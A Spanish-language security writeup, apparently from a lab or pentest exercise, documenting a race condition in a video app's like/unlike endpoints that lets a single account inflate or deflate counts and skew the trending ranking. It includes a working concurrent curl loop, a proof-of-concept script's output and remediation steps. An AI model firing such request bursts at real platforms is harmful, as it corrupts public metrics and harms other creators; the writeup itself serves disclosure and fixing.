

# 🏁 F-029 — Condición de carrera en los likes: una cuenta manipula "Trending"

   

> [!IMPORTANT]
> `POST /api/videos/{id}/like` comprueba "¿ya dio like esta sesión?" y escribe el resultado en dos pasos no atómicos. Disparando peticiones concurrentes con una sola sesión, varias pasan la comprobación antes de que ninguna termine de escribir — el contador sube varias veces por un único "me gusta" real. Mismo fallo, simétrico, en `/unlike`. Como `/trending` ordena por número de likes, esto permite manipular el ranking de contenido destacado con **una sola cuenta sin privilegios**.

## 📖 Contexto

**Endpoints afectados:** `POST /api/videos/{id}/like` y `POST /api/videos/{id}/unlike` (requieren sesión, cualquier cuenta).

```json
// primera vez
{"liked":true,"likes":190}
// repitiendo con la misma sesion
{"liked":true,"likes":190,"already":true}
```

La API ya demuestra que *intenta* ser idempotente (`already:true`) — el problema es que esa comprobación no es atómica con la escritura.

## 🔬 Explotación paso a paso



Reseteado el vídeo a "no dado like", se disparan peticiones `like` concurrentes con la misma cookie de sesión:

```bash
for i in $(seq 1 30); do
  curl -s -b "connect.sid=..." -X POST http://172.17.0.2:9090/api/videos/xyu222/like &
done; wait
```

**Resultado:** `642` → `649` likes — **+7 de una sola cuenta** (debería ser, como mucho, +1). Con 100 peticiones concurrentes contra otro vídeo: `1203` → `1213` (+10).

### 🤖 Automatización

[`scripts/streamwave_like_race_condition.py`](../scripts/streamwave_like_race_condition.py) — se autentica solo, resetea el vídeo, dispara N peticiones `like` concurrentes y mide el incremento real contra el esperado; repite la prueba en sentido `unlike`.

```bash
python3 scripts/streamwave_like_race_condition.py --video-id xyb318 --requests 50
```

```
LIKE  -- 50 peticiones concurrentes en 0.21s
  Antes: 410   Despues: 422
  *** CONDICION DE CARRERA CONFIRMADA: +11 de mas ***

UNLIKE -- 50 peticiones concurrentes (mismo video)
  Antes: 422   Despues: 398
  *** CONDICION DE CARRERA CONFIRMADA (bidireccional): -23 de mas ***
```

El `unlike` resultó incluso más efectivo que el `like` en esta prueba — confirma que el fallo es simétrico, no una peculiaridad de una sola dirección.

## 💥 Impacto

> [!CAUTION]
> `/trending` ordena el catálogo literalmente por número de likes. Esta condición de carrera permite a una sola cuenta, sin privilegios ni necesidad de bots o cuentas múltiples, inflar su propio contenido o desinflar el de otros para manipular ese ranking.

- Manipulación del ranking de contenido destacado con una sola sesión y una ráfaga de peticiones — mucho más rápido y barato que los patrones de "spam ilimitado" vistos en otras apps del cliente (que sí requieren repetir la acción N veces o usar múltiples cuentas).
- Bidireccional: el mismo fallo en `/unlike` permite desinflar el contador de cualquier vídeo.
- Compromete la integridad de una métrica pública de la plataforma usada además para ordenar contenido.

## 🛡️ Remediación

- Hacer atómica la operación "comprobar + escribir": restricción `UNIQUE(user_id, video_id)` en la tabla de likes + capturar el error de violación, o un `UPDATE ... WHERE NOT EXISTS (...)` atómico.
- El contador mostrado debería derivarse del recuento real de filas de "me gusta", no de una variable incrementada manualmente — así una condición de carrera en la escritura no puede desincronizarlo de la realidad.
- Rate-limiting por sesión/IP como capa adicional, sin sustituir la corrección de fondo.

## Hallazgos relacionados

Ninguno directamente encadenado — es independiente de los otros hallazgos de StreamWave ([F-026](F-026-idor-streamwave-watch.md), [F-027](F-027-secretos-expuestos-streamwave.md), [F-028](F-028-ssrf-fetch-thumb-streamwave.md)).

---
⬅ [Volver al índice de writeups](README.md) · [README principal](../README.md) · [Informe técnico (PDF)](../docs/informe-BigShop.pdf)
